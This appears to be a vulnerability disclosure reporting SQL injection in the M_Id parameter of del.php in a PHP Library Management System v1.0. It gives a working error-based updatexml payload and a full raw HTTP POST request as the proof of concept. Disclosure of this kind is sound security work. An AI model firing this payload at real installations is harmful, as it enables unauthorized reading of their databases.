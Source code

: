 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/dele.php

Vulnerability location: /LMS/librarian/del.php, M_Id

[+] Payload: delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> M_Id

```sql
POST /LMS/librarian/del.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/180453976-94209e90-28e2-45de-b49e-e2d3d8d462ef.png)
